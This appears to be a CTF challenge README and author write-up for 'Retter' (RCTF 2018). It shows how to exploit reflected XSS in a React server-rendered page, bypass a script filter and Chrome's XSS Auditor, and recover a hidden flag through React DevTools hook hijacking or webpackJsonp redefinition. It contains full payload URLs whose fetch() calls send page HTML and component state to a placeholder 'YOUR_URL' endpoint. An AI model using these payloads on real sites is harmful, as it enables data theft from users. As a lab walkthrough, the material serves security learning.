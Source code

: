Retter
=================================
## Challenge (4 solved)

To Major Gilbert

http://retter.2018.teamrois.cn

## Build & Run

Only ``admin.retter.2018.teamrois.cn`` can render ``<Flag />``, change it in ``src/universal/NotFound/NotFound.js``.

Only ``172.12.0.1`` be allowed to read the ``flag.js``, change it in ``docker/retter``.

## Writeup

Open the devtool, we will find that the ``<html>`` tag has a property ``data-reactroot`` and knows that the site is using ``React``. View the HTML Source, it is easy to focus on the ``window.__INITIAL_STATE__``. That is meant by site configured Server-side rendering.  If the website is Server-side rendering Redux, it has to inject the initial state into a template to sync with the client-side. See: [Redux - Server render](https://redux.js.org/recipes/ServerRendering). The ``__INITIAL_STATE__`` has only one attribute ``location`` which value is the current URL. So we can build a URL like ``http://localhost:8667/</script>`` to XSS.

The next step is to run our script in the page. Not hard to know ``<script></script>`` is filtered by server, use ``<scr<script>ipt></script>`` to bypass. Then, we can bypass Chrome XSS Auditor by ``<scr<script>ipt>a<script></script>lert(1)</script>`` due to this useless filter. Now we have the abilitity to run any code on this page, it's showtime now!

The first necessary thing is to read the cookie, but...
![](screenshot/1.png)

Flag is not under ``document.cookie``. Well, it's better to check the HTML code with ``document.body.innerHTML`` if any clues are hidden.


Payload:
``http://retter.2018.teamrois.cn/</script><scr<script></script>ipt>setTimeo<script></script>ut(()%20=>%20%7Bvar%20o%20=%20new%20FormData();%20o.append('a',%20document.body.innerHTML);fetch('YOUR_URL',%20%7Bmethod:'post',mode:'no-cors',%20body:o%7D)%7D,%202000)%20</script></script>``

![](screenshot/2.png)

We get a hint that tells us the flag is hidden in the component. Wait.. What is the component? We already know that this site is based on React, so the ``component`` here most likely means React Component. According to [React.Component - React](https://reactjs.org/docs/react-component.html), we know each React component have two instance properties: ``state`` and ``props``. The flag probably is hidden in one of them. Now our task is to try to get the ``state`` or ``props`` of this component.

How to get the flag?

### Way 1 - React Dev Tool

React doesn't expose any API under ``window``, but every developer who is using React needs to debug their code. As the result, the development tool of React has to have the ability to access the state. That means we certainly have a way to get inside the React if we disguise us as the development tool. Google it, we can find a Chrome extension [React Developer Tools](https://github.com/facebook/react-devtools).

In addition to reading the code, we can install it to guess its action. After installing the extension, a function named ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` appeared in ``window``. Now search the code in React, got [ReactFiberDevToolsHook.js](https://github.com/facebook/react/blob/8de8be07a89f55ebfcaaccf1499e03f22d90bad5/packages/react-reconciler/src/ReactFiberDevToolsHook.js#L35). The code follows:
```javascript
export function injectInternals(internals: Object): boolean {
  // ...
  try {
    const rendererID = hook.inject(internals);
    // We have successfully injected, so now it is safe to set up hooks.
    onCommitFiberRoot = catchErrors(root =>
      hook.onCommitFiberRoot(rendererID, root),
    );
    onCommitFiberUnmount = catchErrors(fiber =>
      hook.onCommitFiberUnmount(rendererID, fiber),
    );
  } catch (err) {
    // ...
  }
```

That's mean React will check ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` during **initializing**(so we can't use this way after the page is initialized). If it found the hook, it will inject itself into the hook.

OK, all the necessary information is complete. With the help of [Add React to a New Application](https://reactjs.org/docs/add-react-to-a-new-app.html), we can build a React App and test our ideas locally.

First of all, insert this script before ``<script src="app.js"></script>``
```html
<script>var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a};</script>
```

Currently we got the React instance in ``window.aa``, and we can find out what this API exposed via Chrome Dev Tool. Its member ``findFiberByHostInstance`` seems useful, and it's easy to know ``aa.findFiberByHostInstance(document.querySelector('some-selector')`` will return a ``ProxyComponent`` which has a paramater ``memoizedState`` to store the state.

Combine them:
```javascript
var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a}; setTimeout(() => {console.log(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState)}, 1000)
```

Finally, our payload is:
```html
http://retter.2018.teamrois.cn/%3C/script%3E%3Cscr%3Cscript%3E%3C/script%3Eipt%3Evar%20__REACT_DEVTOOLS_GLOBAL%3Cscript%3E%3C/script%3E_HOOK__%20=%20%7BsupportsFiber:%20true,%20inject:%20(a)%20=%3E%20window.aa%20=%20a%7D;%20setTimeout(()%20=%3E%20%7Bfetch('YOUR_URL'+JSON.stringify(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState))%7D,%201000)%20%3C/script%3E%3C/script%3E
```
![](screenshot/3.png)

This payload only works with React 16.

### Way 2 - Webpack JSONP

It's easier than ``React Dev Tool``, so I added more difficulty.

Read ``manifest.js``, we can know there's a ``flag.js``:
```javascript
u.src=n.p+""+({3:"flag"}[e]||e)+"_"+{0:"1b67ce672850a0add7ec",1:"3e8f6b946ce819a88092",2:"e9a9c1c90f12c48c07e0",3:"3bce8e296124f6ffeb78"}[e]+".js"
```

We can get the path of ``flag.js``:
http://cdn.retter.2018.teamrois.cn/flag_3bce8e296124f6ffeb78.js . Open it in the browser!

... The flag is hidden in this file, so I'm sorry, 403 Forbidden. Only our bot can read this.

How can we get this file through XSS? Directly ajax like ``fetch(url).then(p => p.data)``? We can't do this because the script is under the ``cdn.domain``, it cross-domained.

You may noticed that all the scripts start with ``webpackJsonp``, that means I used webpack's code-splitting. You can see that chunks are loaded via JSONP. Thus, we can get the first payload:

```html
<script>var webpackJsonp = (a, b, c) => {if (b['./universal/components/Flag.js']) console.log(a, b['./universal/components/Flag.js'].toString(), c)};</script>
```

Let's read ``webpackJsonp`` in ``manifest.js``.

```javascript
    var r = window.webpackJsonp;
    window.webpackJsonp = function(t, a, c) {
        for (var u, i, f, l = 0, s = []; l < t.length; l++)
            i = t[l],
            o[i] && s.push(o[i][0]),
            o[i] = 0;
        for (u in a)
            Object.prototype.hasOwnProperty.call(a, u) && (e[u] = a[u]);
        for (r && r(t, a, c); s.length; ) // That's why we predefined function will be called
            s.shift()();
        if (c)
            for (l = 0; l < c.length; l++)
                f = n(n.s = c[l]);
        return f
    }
```
We don't need to import ``flag.js``, ``webpackJsonp`` redefined in ``manifest.js`` will call the function we defined before, and React will auto import ``flag.js``.

It's too easy so I made a bypassable filter in ``docker/build.sh``. [CyKor](https://ctftime.org/team/369) and ``张衡路窝里斗大学一楼食堂彻底完蛋啦`` implemented a ``webpackJsonp`` will send data to their server but return of ``toString()`` is as normal one to bypass the filter. [Bushwhackers](https://ctftime.org/team/586) found that ``webpackJsonp`` will return the loaded script as requested by the third parameter.

### Way 3 - iframe + ref
[OpenToAll](https://ctftime.org/team/9135) found it, see: https://devcraft.io/2018/05/22/retter-rctf-2018.html

